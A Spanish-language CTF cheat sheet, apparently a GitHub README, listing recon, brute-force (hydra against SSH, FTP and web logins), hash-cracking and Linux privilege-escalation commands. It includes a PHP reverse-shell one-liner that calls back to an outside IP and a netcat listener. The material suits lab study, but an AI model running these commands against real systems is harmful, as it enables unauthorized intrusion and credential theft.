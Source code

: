 # Herramientas-CTF
Herramientas útiles para afrontar CTF.

## Ocultar IP
### KALITORIFY
    Instalación: https://www.youtube.com/watch?v=bC6pL6mEnuo

Iniciar kalitorify sobre proxy tor:
```
sudo kalitorify -t
```

Verificar IP pública a la cual estamos conectados:
```
wget -qO- http://ipecho.net/plain | xargs echo
curl ip.me
curl ifconfig.me
curl https://distguard.com/ip.php
```

## Reconocimiento:
### NETDISCOVER
Ejemplos:
```
netdiscover -i <INTERFACE> //Para redes comunes en una interface de red específica (Ejemplo: eth0).
netdiscover -r 192.168.1.0/24 //Para escanear un rango dentro de una red específica (CIDR).
```
### NMAP
Análisis y descubrimiento de servicios y puertos.

Ejemplos:

Detección de servicios standard
```
nmap -sV 192.168.1.110
```
Detección de servicios con vulnerabilidades
```
nmap -sV -vv --script vuln 192.168.1.110
```
Enumeración de directorios SAMBA
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.1.110
```
### Port Knocking
```
for PORT in 1111 2222 3333 4444; do nc -vz 192.168.1.110 $PORT; done;
```
### ENUM4LINUX
Análisis y descubrimiento de recursos compartidos vía SMB
```
enum4linux -U 192.168.1.110     Usuarios.
enum4linux -S 192.168.1.110     Listas compartidas.
enum4linux -P 192.168.1.110     Política de contraseñas.
```
### Enumeración de subdominios
Web
```
https://www.nmmapper.com/sys/tools/subdomainfinder/
```
Herramientas incluidas en Kali/ParrotOS
```
sublist3r -d dominio.com
```
### WHOIS
Web
```
https://who.is/whois
```
Herramientas incluidas en Kali/ParrotOS
```
whois dominio.com
```
### GOBUSTER
Detección de directorios y archivos con la ayuda de un diccionario
```
gobuster dir -u http://192.168.1.110/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,old,bak,bin
```
### HYDRA
http-post-form
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 192.168.1.110 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V
```
ssh
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 192.168.1.110 -t 4 ssh
```
ftp
```
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.70.92 ftp
```
### HASHCAT
Lista de modos (algoritmos) a escanear: https://hashcat.net/wiki/doku.php?id=example_hashes
```
# 0 para MD5
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```
### Inyección SQL:
Codificación de URL para crear cargas útiles (payloads)
```
https://www.w3schools.com/tags/ref_urlencode.ASP
```

### PYTHON3:
Ejemplos:

Inicar WebServer
```
python3 -m http.server 12345
```
### REVERSE SHELL:
Descargar y editar (IP y Puerto)
```
https://github.com/josueitamar/php-reverse-shell/blob/master/php-reverse-shell.php
php -r ‘$sock=fsockopen(“10.8.116.182”,1234);exec(“/bin/sh -i <&3 >&3 2>&3”);’ // Para ejecución en textbox php
```
Configurar puerto escucha en netcat
```
nc -lnvp 4444
```
Estabilizar una terminal interactiva

-Python
```
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
```
### Escalar Privilegios
https://d00mfist.gitbooks.io/ctf/content/privilege_escalation_-_linux.html
### LINENUM
Útil para escalar privilegios cuando ya se tiene un usuario comprometido satisfactoriamente
- Descargar
  - https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
- Montar en maquina destino (atacada)
  - Montar un webserver y wget, o copiar con editor de texto
- Ceder permisos de ejecución
  - chmod +x LinEnum.sh
- Ejecutar y guarda resultadoa para su respectivo análisis
  - ./LinEnum > Result.txt


---
Listar comandos permitidos para el usuario activo
```
sudo -l
```
Repositorio de binarios Unix utiles para escalar privilegios

https://gtfobins.github.io/

Buscar archivos que son propiedad de root y tienen al menos el permiso SUID: 
```
find / -perm -u=s -type f 2>/dev/null
```
Busqueda de archivos con extensión específica
```
find / -type f -name "*.sql"
```

## Otras Herramientas
### Analizador de Hashes
https://www.tunnelsup.com/hash-analyzer/

https://www.onlinehashcrack.com/hash-identification.php

https://md5hashing.net/hash_type_checker

https://hashes.com/en/tools/hash_identifier

### Hash Cracker
https://crackstation.net/

### CyberChef
https://gchq.github.io/CyberChef/
